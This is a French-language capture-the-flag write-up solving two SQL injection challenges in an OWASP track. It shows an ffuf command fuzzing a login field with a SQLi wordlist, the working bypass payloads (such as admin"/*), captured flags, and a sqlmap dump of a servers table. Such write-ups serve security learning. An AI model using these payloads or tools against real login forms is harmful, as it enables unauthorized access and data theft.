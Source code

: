 # OWASP Track
## Flag 1: Injection: 1

### Information:
- http://REDACTED
- Database: sqlite3

Je ne suis pas le meilleur en sql, en equipe je n'aurais jamais pris ce challenge.



Et je deteste vraiment le SQL! Je tente simplement avec `ffuf` et une petite liste
```
ffuf -u "http://REDACTED/login?user=FUZZ&password=" -w ./SecLists/Fuzzing/SQLi/quick-SQLi.txt
```
Voici des valeurs de `user` qui me donne 200 OK

```
'&'                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 60ms]
"*"                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 61ms]
'-'                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 62ms]
admin' #                [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 62ms]
admin'/*                [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 64ms]
"^"                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 83ms]
"&"                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 87ms]
'*'                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 107ms]
admin" #                [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 43ms]
admin"/*                [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 45ms]
"-"                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 13ms]
'^'                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 16ms]
```
`admin"/*` dans le champ user me laisse passer

Et je suis authentifier
```
Servers Inventory (FINCTF-SQL_1NJ3CT10N_3946a02a12)
```
## Flag #2: Inejection 2

### Information
On parle de la table `servers` ainsi que de la colonne `comment`
Bref je DETESTE le sql. Donc encore une fois je prend l'outils
Je dump la table serveur avec `sqlmap` (ne pas oublier de lui passer le cookie de session)

```
Database: <current>
Table: servers
[10 entries]
+--------------+---------+---------------------------------------------------------+----------------------------+
| ip           | os      | comment                                                 | hostname                   |
+--------------+---------+---------------------------------------------------------+----------------------------+
| 10.13.37.99  | Linux   | Management Linux server FINCTF-SQL_1NJ3CT10N_1b34849755 | pladm100.organization.tld  |
| 10.13.37.100 | Windows | Management Windows server                               | pwadm9090.organization.tld |
| 10.13.37.98  | AIX     | Old server, not long to live.                           | paweb504.organization.tld  |
| 10.10.10.43  | Linux   | Dev env                                                 | dlappv43.organization.tld  |
| 10.10.10.44  | Linux   | Dev env                                                 | dlappv44.organization.tld  |
```